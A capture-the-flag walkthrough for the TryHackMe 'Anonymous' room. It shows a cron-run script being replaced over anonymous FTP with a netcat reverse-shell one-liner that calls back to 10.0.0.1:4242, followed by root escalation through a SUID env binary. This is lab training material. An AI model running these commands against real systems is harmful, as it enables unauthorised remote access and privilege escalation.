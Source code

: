 Room: [Anonymous](https://tryhackme.com/room/anonymous)

Difficulty: Medium

Overview: In this room we will take advantage of a missconfigured ftp server in order to modify a script that runs has a cronjob. From there we will exploit SUID binaries to do privilege escalation. 

------------------------------------------------------------------------------------------------------------------------------------------------------------------

We will start off by enumerating the machine with nmap:

**nmap -sV -sC -A -p- anonymous.thm -oN nmap.txt**

![nmap1](https://user-images.githubusercontent.com/76821053/118256768-c30dd800-b4a5-11eb-8835-6cbb9f426a20.png)
![nmap2](https://user-images.githubusercontent.com/76821053/118256851-d7ea6b80-b4a5-11eb-9455-def0bbef6f87.png)

Open ports and their versions running on the remote system:

21    →  vsftpd 2.0.8 

22    →  OpenSSH 7.6p1

139  →  netbios-ssn Samba smbd 3.X - 4.X

445  →  netbios-ssn Samba smbd 4.7.6

From the nmap scan we can imediately answer the first three questions.

Continuing enumerating the machine. 

The ftp server lets us login with user “anonymous” without any password.

![ftpdownload](https://user-images.githubusercontent.com/76821053/118257028-1122db80-b4a6-11eb-90cf-8b198bb70edf.png)

I downloaded three files: **clean.sh**, **removed_files.log**, **to_do.txt**.

**to_do.txt**:

Leaves a hint that the system is not safe. Meaning that maybe some services have anonymous login.

![todo](https://user-images.githubusercontent.com/76821053/118257209-45969780-b4a6-11eb-9215-7690384324ed.png)

**clean.sh**:

Is a bash script that when ran it checks if there is files in the /tmp directory and removes them. 

![readclean](https://user-images.githubusercontent.com/76821053/118257284-5ba45800-b4a6-11eb-9f3e-5db72feed54b.png)

**removed_files.log**:

When the bash script runs it posts status messages to this .log file.

![remotelog](https://user-images.githubusercontent.com/76821053/118257366-75de3600-b4a6-11eb-93e9-5790a2a1c534.png)

If we monitored the **removed_files.log** file we can see that the script **clean.sh** is running has a cronjob since it keeps posting to the .log file everyminute:

If we use "wc -l" we can check how many lines (post messages) the file has.

![remoteWC1](https://user-images.githubusercontent.com/76821053/118257588-b63db400-b4a6-11eb-882b-1693c6c60e0d.png)

After a few minutes we have 72 entries.
 
![remoteWC2](https://user-images.githubusercontent.com/76821053/118257627-c05fb280-b4a6-11eb-8468-1d11bf8a02b3.png)
 
Lets try to upload files to the ftp server:
 
![ftpuploadtest](https://user-images.githubusercontent.com/76821053/118257708-d9686380-b4a6-11eb-9d0e-098654b93554.png)
 
Has we can see the system allows file upload, so lets change the **clean.sh** script a bit and upload it:
 
![cleantest](https://user-images.githubusercontent.com/76821053/118257824-f7ce5f00-b4a6-11eb-8b4f-6e3e435514d6.png)
 
The new message was posted to the .log file after a minute. 
 
![removemessage](https://user-images.githubusercontent.com/76821053/118258135-6ca19900-b4a7-11eb-8c7f-6b00cb9cff3d.png)

This is our way in to the remote target, so lets change the script to run a netcat reverse shell connection.

**rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f**

Change ip and port to match your own system and delete or comment out the rest of the script, because if the script runs the rest of the commands it will delete our tmp files.

![cleannetcat](https://user-images.githubusercontent.com/76821053/118265218-bb076580-b4b0-11eb-84fe-d1d79f532501.png)

Now we just have to be listening with netcat on the port we specify when we upload the new clean.sh file to the ftp server and get a reverse shell connection.

![netcatreverse](https://user-images.githubusercontent.com/76821053/118265304-dffbd880-b4b0-11eb-878d-c77337844df2.png)

Right away we can find the user.txt flag.

![flag1](https://user-images.githubusercontent.com/76821053/118265533-3a953480-b4b1-11eb-9990-d5658b3adbac.png)

It's good practice to stabilize your shell. So we can use tab-completion, Ctrl+C  without completely kills our shell and use su command since it often do not work.

And in a kali machine to do that we will use the following command:

**python -c 'import pty;pty.spawn("/bin/bash")'**

**export TERM=xterm-256-color**

**CTRL + Z**

**stty raw -echo; fg**

![stabilizeshell](https://user-images.githubusercontent.com/76821053/118265726-7fb96680-b4b1-11eb-973b-a63383054857.png)

Now lets try and elevate our privileges and gain root access.

We can use tools like linpeas.sh, but in this case we will do it manually. Since this privilege escalation is a simple one to find.

When enumerating a UNIX base system one of the first things we can do is search for SUID binaries. Set User ID is a type of permission that allows users to execute a file with the permissions of a specified user.  Files that have suid permissions run with higher privileges. 

For example if a file is owned by “root" user and is set to run has a SUID binary. Normal users might take advantage of this permitions to elevate their privileges.

So to check for SUID binaries we can use this command:

**find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;**

![findsuid](https://user-images.githubusercontent.com/76821053/118266231-33baf180-b4b2-11eb-9900-099dc92816fe.png)
![findsuid2](https://user-images.githubusercontent.com/76821053/118266407-7250ac00-b4b2-11eb-85be-5583970bedab.png)

There is a great site called GTFOBins that has a list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.

https://gtfobins.github.io/

/usr/bin/env binary is running has root with SUID permitions, so we can exploit it.

![GTFObinenv](https://user-images.githubusercontent.com/76821053/118266632-c6f42700-b4b2-11eb-92f8-da4efdf14a9c.png)

/usr/bin/env /bin/sh -p

![rootflag](https://user-images.githubusercontent.com/76821053/118266812-091d6880-b4b3-11eb-91b8-50146e4390db.png)

Success we found our last flag!




